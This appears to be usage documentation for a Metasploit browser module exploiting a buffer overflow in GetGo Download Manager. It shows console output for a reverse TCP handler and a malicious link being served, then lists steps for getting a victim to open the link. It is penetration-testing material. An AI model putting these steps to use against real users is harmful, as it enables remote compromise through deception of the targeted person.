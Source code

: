## Description

This modules adds a buffer overflow exploit for GetGo Download Manager, which supports 
4.9.0.1982 and 5.3.0.2712. Versions prior should also be vulnerable.

This exploit has been tested on Windows XP SP3. The vulnerable software can be downloaded
at [GetGo Download Manager 5.3.0.2712](https://www.exploit-db.com/apps/b26d82eadef93531f8beafac6105ef13-GetGoDMSetup.exe)

To use this, first start the module like the following example:

```
msf exploit(windows/browser/getgodm_http_response_bof) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.12:4444 
msf exploit(windows/browser/getgodm_http_response_bof) > [*] Using URL: http://0.0.0.0:8080/shakeitoff.mp3
[*] Local IP: http://192.168.0.12:8080/shakeitoff.mp3
[*] Server started.
```

The exploit should give you a fake link. Pass this link to the Getgo user, and instruct them to
do the following:

1. Start GetGo Download Manager
2. Click on the DOWNLOAD button
3. Click on New (if the link is already copied to the clipboard, clicking on this should trigger
   the download, and get exploited).
4. If the link isn't in the clipboard, instruct the user to enter the URL in the URL field, and
   click OK. The user should also get exploited this way.
